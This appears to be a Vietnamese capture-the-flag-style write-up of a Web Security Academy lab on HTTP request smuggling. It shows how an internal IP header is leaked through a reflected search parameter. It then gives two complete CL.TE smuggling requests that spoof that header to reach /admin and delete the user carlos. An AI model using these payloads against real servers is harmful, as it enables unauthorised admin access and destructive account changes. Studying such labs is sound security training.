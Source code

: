 ![image](https://hackmd.io/_uploads/HklbhAs66.png)

Thử với `X-Forwarded-For` nhưng không thành công

![image](https://hackmd.io/_uploads/SJnH6Cjpa.png)

Vì response của POST search request này reflect chuỗi search → tấn công HTTP Request Smuggling bằng POST với search= → phần request sau sẽ được nối vào search= → Ta xem được headers của request sau mà phía frontend server gửi cho backend

![image](https://hackmd.io/_uploads/Sk7A0Aip6.png)

vậy ta xem được header cần tìm là `X-MmJSse-Ip: 42.117.139.94`

### Khai thác

```http!
POST / HTTP/1.1
Host: 0a11000e0350f4bd80e68f6800360077.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-MmJSse-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

![image](https://hackmd.io/_uploads/rJsB1k3T6.png)

- thành công vào được trang quản trị
  Xóa user carlos.

```http!
POST / HTTP/1.1
Host: 0a11000e0350f4bd80e68f6800360077.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-MmJSse-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```
